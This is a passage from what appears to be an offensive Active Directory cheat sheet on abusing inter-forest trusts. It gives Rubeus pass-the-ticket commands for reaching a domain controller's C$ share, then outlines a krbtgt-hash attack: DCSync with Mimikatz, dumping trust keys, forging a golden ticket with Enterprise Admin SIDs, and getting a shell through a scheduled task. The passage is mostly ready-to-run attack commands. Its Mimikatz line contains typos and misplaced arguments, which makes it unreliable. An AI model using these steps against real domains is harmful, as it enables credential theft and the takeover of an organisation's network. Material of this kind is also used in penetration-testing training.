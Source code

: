 ```powershell
ls \\<target-domain-user-dc>\C$
```

# <span style="color:lightblue">Trust Key Abuse using Rubeus</span>


## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">1. Create ticket and add it into the memory using asktgs</span>

```powershell
.\Rubeus.exe /asktgs /ticket:C:\kekeo_old\trust_tkt.kirbi /service:cifs/<target-domain-user-dc> /dc:<target-domain-user-dc> /ptt
```

### <span style="color:#F1C232">2. List the authentications</span>

```powershell
klist
```

### <span style="color:#F1C232">3. Now try to access the target service (CIFS)</span>

```powershell
ls \\<target-domain-user-dc>\C$
```


# <span style="color:lightblue">Trust Abuse by krbtgt hash</span>

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Perform a DCSync attack to dump the KRBTGT hash.
- [x] 2. Dump the trust keys of the inter-forest trusts.
- [x] 3. Note the SID of the current Domain, SID of the target Domain.
- [x] 4. We can forge a inter-realm TGT using a Golden Ticket. Remember to add `-519` after the `sids` parameter to forge privileges as an Enterprise Administrator.
- [x] 5. Now Inject the TGS in the memory
- [x] 6. We can create a schedule and execute a task to get a shell as enterprise admin.


### <span style="color:#F1C232">1. Perform a DCSync attack for getting krbtg hash. Execute the below command with DC privileges</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:<target-domain-SID> /all /cvs"'
```

